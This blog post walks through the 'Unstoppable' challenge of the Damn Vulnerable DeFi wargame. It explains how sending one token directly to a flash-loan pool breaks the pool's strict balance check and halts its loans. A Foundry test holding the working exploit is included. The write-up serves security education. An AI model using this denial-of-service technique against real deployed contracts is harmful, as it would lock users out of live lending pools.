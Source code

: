 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #1 Solution — Unstoppable'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>Our end goal in this challenge is to DOS (Denial of Service) the contract, preventing anyone to interact with it.
'
coverImage: 
  url: '/assets/blog/ethereum.jpg'
  credit: 
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2020-04-02T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.

Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #1  —  Unstoppable

> There’s a lending pool with a million DVT tokens in balance, offering flash loans for free.  
> If only there was a way to attack and stop the pool from offering flash loans …You start with 100 DVT tokens in balance.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/unstoppable)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/unstoppable/unstoppable.challenge.js)

## The attacker end goal

Our end goal in this challenge is to DOS (Denial of Service) the contract, preventing anyone to interact with it.

How can we break things?

## Study the contracts

#### `UnstoppableLender`

Let’s see what’s inside the Lending platform `UnstoppableLender`

We can see that

- The contract is using Solidity `>0.8`. This mean that this contract will not be prone to underflow/overflow errors.
- The contract inherit from the OpenZeppelin’s ReentrancyGuard contract, so we can be sure that reentrancy will not be a problem.
- We assume that the DVT (Damn Vulnerable Token) token is a safe contract
- The `constructor` is correctly checking that the DVT token is not an empty address

Let’s see what’s inside the `flashLoan` function

- It checks that `borrowAmount` is not 0
- It correctly checks that the balance of the Lending Pool has enough tokens to sustain the flashloan to the user
- It’s checking that `poolBalance` (state variable that track token deposited on the pool by users) is equal to the actual token balance of the pool `damnValuableToken.balanceOf(address(_this_))`
- It will perform the flash loan
- It will check that the balance after the flashloan is greater than the balance before. This is needed becasue we want to be sure that the user has at least repaid their loan debt.   
  `uint256 balanceAfter = damnValuableToken.balanceOf(address(_this_)); require(balanceAfter >= balanceBefore, “Flash loan hasn’t been paid back”);`

The first thing that come to my mind is the [SWC-132: Unexpected Ether balance](https://swcregistry.io/docs/SWC-132) that says:

> Contracts can behave erroneously when they strictly assume a specific Ether balance. It is always possible to forcibly send ether to a contract (without triggering its fallback function), using selfdestruct, or by mining to the account. In the worst case scenario this could lead to DOS conditions that might render the contract unusable.

The same thing applies here. The Lending Pool is assuming that all the users will supply tokens to the pool via the `depositTokens` method that will update the `poolBalance` internal balance.

So, how can we break the assumption that `assert(poolBalance == balanceBefore);`?

It’s pretty simple: we just make our attacker that has 100 DVT tokens to send 1 token to the Lending Pool address directly

`token.transfer(address(pool), 1);`

Thereafter, you would have that `poolBalance` would still be 1M tokens but the real balance of the lending pool would be 1M+1

## Solution code

You can see the full solution in the repository of [Damn Vulnerable DeFi — Foundry edition](https://github.com/StErMi/forge-damn-vulnerable-defi)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.10;

import {stdError} from "forge-std/stdlib.sol";

import "../../unstoppable/UnstoppableLender.sol";
import "../../unstoppable/ReceiverUnstoppable.sol";

import "../../DamnValuableToken.sol";

import {Utilities} from "../utils/Utilities.sol";
import {BaseTest} from "../BaseTest.sol";

contract UnstoppableLenderTest is BaseTest {

    uint TOKENS_IN_POOL = 1000000 ether;
    uint INITIAL_ATTACKER_TOKEN_BALANCE = 100 ether;

    DamnValuableToken token;
    UnstoppableLender pool;
    ReceiverUnstoppable receiverContract;

    address payable attacker;
    address payable someUser;

    constructor() {
        string[] memory labels = new string[](2);
        labels[0] = "Attacker";
        labels[1] = "Some User";

        preSetup(2, labels);
    }

    function setUp() public override {
        super.setUp();

        attacker = users[0];
        someUser = users[1];

        // setup contracts
        token = new DamnValuableToken();
        pool = new UnstoppableLender(address(token));

        // setup tokens
        token.approve(address(pool), TOKENS_IN_POOL);
        pool.depositTokens(TOKENS_IN_POOL);

        token.transfer(attacker, INITIAL_ATTACKER_TOKEN_BALANCE);

        assertEq(token.balanceOf(address(pool)), TOKENS_IN_POOL);
        assertEq(token.balanceOf(attacker), INITIAL_ATTACKER_TOKEN_BALANCE);

        vm.startPrank(someUser);
        receiverContract = new ReceiverUnstoppable(address(pool));
        receiverContract.executeFlashLoan(10);
        vm.stopPrank();
    }


    function test_Exploit() public {
        runTest();
    }

    function exploit() internal override {
        /** CODE YOUR EXPLOIT HERE */

        vm.prank(attacker);
        token.transfer(address(pool), 1);
    }

    function success() internal override {
        /** SUCCESS CONDITIONS */

        // It is no longer possible to execute flash loans
        vm.expectRevert(stdError.assertionError);
        vm.prank(someUser);
        receiverContract.executeFlashLoan(10);
    }
}
```

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.
